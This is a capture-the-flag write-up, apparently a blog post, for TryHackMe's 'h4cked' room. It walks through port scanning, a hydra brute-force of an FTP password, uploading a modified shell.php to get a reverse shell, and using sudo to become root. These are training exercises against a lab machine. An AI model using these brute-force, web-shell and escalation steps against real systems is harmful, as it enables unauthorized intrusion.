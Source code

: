```yaml
---
layout: post
title: "h4cked"
date: 2022-10-21
categories: [Tryhackme, Easy-THM]
tags: [rustscan, hydra, brute-forcing, ftp, reverse-shell, sudo]
image: ../../assets/img/posts/h4cked.png 

---
```


## Description

Find out what happened by analysing a .pcap file and hack your way back into the machine

|**Room**|[h4cked](https://tryhackme.com/room/h4cked)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[toxicat0r](https://tryhackme.com/p/toxicat0r)|

---

Starting off with deploying the machine and quickly scanning the open ports with rustscan,

```bash
rustscan -a 10.10.45.132 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/186199089-2d6f26d3-392d-47df-9f67-561bb80d2af2.png)

We got the open ports and now we can scan them in detail using nmap,

```bash
nmap -sC -sV -p21,80 10.10.45.132 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/186199124-c77996b5-f68b-455b-9dbc-0785eb637cc5.png)

Result scan shows that port 21 is running ftp service and port 80 is running apache webserver.

We can brute force the password of the user, jenny using the tool named hydra for ftp service,

```bash
hydra -l jenny -P /usr/share/wordlists/rockyou.txt ftp://10.10.45.132
```

![image](https://user-images.githubusercontent.com/67465230/186199214-28d3bbd4-bf8d-45fa-86f4-ebe135e56c1b.png)

after sometime, we will get our password.

Let's login into ftp service,

```bash
ftp 10.10.45.132
```

![image](https://user-images.githubusercontent.com/67465230/186199284-978e269b-03e5-489c-b6c3-b31c0832fd4f.png)

We get in.

Enumerate directory and there we find a shell.php file (_interesting!_), so let's download it using `get` command,

```bash
ls -la
get shell.php
```

![image](https://user-images.githubusercontent.com/67465230/186200346-72f60ae0-52f9-4203-8f6f-936e1cb0ab4e.png)

Now, changing the IP and desired port in shell.php file and put back into ftp service,

```bash
put shell.php shell.php
```

![image](https://user-images.githubusercontent.com/67465230/186200400-9581a912-520f-405e-b2bf-93270b8e115f.png)

>Here we are putting the shell.php file and replacing it with existing one.

Now, let's trigger the shell by navigating to http://10.10.45.132/shell.php in browser,

![image](https://user-images.githubusercontent.com/67465230/186200508-ba37bc1c-8991-4ccc-a68f-70ae913e60a4.png)

we got our reverse shell.

Let's switch to jenny user,

```bash
su jenny
id
```

![image](https://user-images.githubusercontent.com/67465230/186202270-6662fdf0-953a-440d-8cf4-f8b90207cda9.png)

After switching to jenny user, we can enumerate user directory and there we can find the user flag.

Now remains the privilege escalation. Let's find the binaries which we can run using `sudo`,

```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/186202344-8dc1e082-3699-4e33-b22f-443330f10c22.png)

we can run ALL binaries using sudo command.

Let's switch to super user,

```bash
sudo su
id
```

![image](https://user-images.githubusercontent.com/67465230/186202543-a36a1ebd-b769-491c-bfe1-fbd81a7d00c3.png)

we get the system access!

Navigating to /reptile directory and enumerating directory, we will get our root flag,

```bash
cd /Reptile
ls -la
```

![image](https://user-images.githubusercontent.com/67465230/186202589-d7733c2f-0711-4911-9274-e127d65bc8d5.png)
